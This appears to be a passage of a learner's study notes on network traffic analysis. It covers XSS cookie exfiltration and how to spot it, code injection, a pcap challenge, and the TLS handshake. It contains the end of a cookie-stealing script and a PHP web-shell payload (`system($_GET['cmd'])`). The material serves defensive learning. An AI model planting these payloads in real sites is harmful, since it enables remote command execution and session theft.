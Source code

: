                 // 6. Send the request (exfiltrate the cookies)
                request.send();
            });
        </script>`
        -
        5. The honey part is that >> victim sends `GET` request to the attacker
            - this request includes cookies as query parameter
            -
- **Detection:**
    1. While analyzing NTA, Give a red flag to the *non-webser hosts* who is getting `GET` reqeusts
    2. Good amount of requests were being sent to an `internal "server,"` >> **we did not recognize**
    3. Indication of cross-site scripting.

- **Code Injection**
    1. Attacker may put some codes into these fields(comments section) like the following two examples.
        - `<?php system($_GET['cmd']); ?>` >> **To get command and control through PHP.**
        - `<?php echo `whoami` ?>`

- **Preventing XSS and Code Injection**
    1. Sanitize and handle user input in an acceptable manner.
    2. Do not interpret user input as code.

- **Practical Challenge:**
    1. Inspect the first packet of the XSS_Simple.pcapng file, part of this module's resources, and
       enter the cookie value that was exfiltrated as your answer.

    **Solved:**
    - J'ai utilise ce process >>
    - J'ai choisi le premier code >> avec GET >> `Follow > HTTP Stream`

## SSL Renegotiation Attacks
- **How HTTPs Works with Server?:**
    1. `Handshake` >> to clarify which encryption algorithms to use, & exchange certs
    2. `Encryption` >> they use the agreed algorithm to encrypt the further data
    3. `Further Data Exchange` >> start to exchange data: web pages, images, or other web resources.
    4. `Decryption` >> happens in both sides

- **Goal of SSL Renegotiation:**
    - *Negotiate the session to the lowest possible encryption standard.* \\

- **TLS Handshake Process:**
    1. Client and Server finished `TCP Handshake`
    2. Then immediately, client sends `Client Hello` to Server
        - This message includes: TLS/SSL versions and encryption algorithms to choose by server, and some random data (nonces)
    3. Then, Server sends `Server Hello` to Client
        - This message includes: chosen TLS/SSL version, chosen encryption algorithm, and additional (nonces)
    4. `Certificate Exchange` >> Server sends its certificate >> *proves its identity >> includes public key*
    5. `Key Exchange` >> client generates *premaster secret* >> it encrypts this secret using public key of server >> then sends it to server
    6. `Session Key Derivation` >> *both the client and the server use the nonces exchanged in the first two steps*
        - along with the *premaster secret* to **compute the session keys**
        - **These session keys are used for symmetric encryption and decryption of data during the secure connection.**
        - That's how symmetric key is generated, I guess
    7. `Finished Messages` >>  verify the handshake is completed and successful
        - This message: includes the hash of `all previous handshake messages` and `is encrypted using the session keys.`
